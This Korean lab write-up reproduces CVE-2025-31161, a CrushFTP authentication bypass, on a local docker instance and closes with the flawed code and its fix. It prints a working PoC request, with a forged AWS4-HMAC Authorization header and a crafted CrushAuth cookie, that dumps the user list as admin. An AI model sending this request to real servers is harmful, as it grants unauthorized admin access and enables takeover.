 # CVE-2025-31161 | CrushFTP Authentication Bypass
---
> 화이트햇 스쿨 3기 (19반) - [김휘성 (@hwisungkk)](https://github.com/hwisungkk) / [Blog Link](https://hwisungkk.github.io/)<br>
> [상세 취약점 분석](https://abounding-king-077.notion.site/CVE-2025-31161-1e289d4224478074b76bdf15b4a30590) - notion
>
> https://github.com/hwisungkk/kr-vulhub/tree/main/CrushFTP/CVE-2025-31161 <br>
> https://github.com/gunh0/kr-vulhub/pull/273 

<br>

### 요약
- 다중 프로토콜, 다중 플랫폼을 지원하는 파일 전송 서버인 CrushFTP AWS S3 인증 과정의 헤더 처리 로직 결함으로 인한 인증 우회 취약점입니다. <br>

- 알려진 사용자명을 이용해 공격자는 인증 없이 관리자 권한 획득이 가능해서 원격 코드 실행까지 가능합니다.
  
- 패스워드 검증 과정에서 문제가 발생해 검증이 생략됩니다.

- CVE-2025-2825로 발급된 후 reject되고 CVE-2025-31161로 부여되었습니다.

### target
- CrushFTP 11.0.0 ≤ 11.3.0
- CrushFTP 10.0.0 ≤ 10.8.3


## 환경 구성 및 실행
- [CrushFTP 10.8.0_4 version](https://github.com/NetLah/docker-crushftp/tree/main) 해당 repo에서 취약점이 발생하는 CrushFTP 버전 사용.

- `docker run -p 21:21 -p 443:443 -p 20000-20100:20000-20100 -p 2222:2222 -p 8080:8080 -p 9090:9090 -v ~/crushftp-data:/var/opt/crushftp --name crushftp netlah/crushftp:latest` 터미널에서 실행해서 127.0.0.1:8080 에서 CrushFTP 서버를 실행

- burpsuit로 PoC message를 보내 계정 인증 우회 가능. 계정 정보 출력으로 관리자 권한 확인

## Poc message
```
GET /WebInterface/function/?command=getUserList&serverGroup=MainUsers&c2f=1111 HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: */*
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8081/WebInterface/UserManager/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: CrushAuth=1743113839553_e96EZ70ONL6xAd1DAJhXMZYMn1111
Authorization: AWS4-HMAC-SHA256 Credential=crushadmin/
Connection: keep-alive

```
```
1. 가짜 AWS S3 인증 헤더와 특수하게 포맷된 CrushAuth 쿠키를 사용하여 악성 HTTP 요청 작성 
2. "crushadmin"과 같은 알려진 기본 사용자 이름을 타겟팅 (~ 문자 제외하고)
3. CrushFTP 웹 인터페이스에 요청 제출
```
- Authorization 헤더는 "AWS4-HMAC"로 시작<br>
- CrushAuth는 유효할 필요없이 13개 숫자 + 언더바 + 30자 문자열<br>
- 마지막 4글자가 c2f와 같다면 사용자 목록을 서버로부터 응답받을 수 있습니다.

## 결과
**서버**
![normal](./assets/open_server.png)

![normal](./assets/open_server2.png)

127.0.0.1:8080에 띄운 후<br>
burpsuite로 poc message를 보내면<br>

![normal](./assets/poc.png)

**계정 정보 탈취 성공**

## 정리
```c
boolean lookup_user_pass = true;  // Default to true - this is crucial!
```
코드처럼 true로 권한을 주고, 뒤의 흐름에서 어떤 조건(해당 취약점에서는 '~'가 있는지)으로 false로 바꾸는 흐름은 위험합니다. 조건을 우회하기만 하면 변수의 값이 true로 남고, 악용할 수 있기 때문입니다.<br>

현재는 방어 방법으로 보안을 위한 새로운 매개변수를 만들어서 false 값을 준 다음 lookup_user_pass가 아닌 매개변수로 검사를 해서 로직을 나눴습니다.
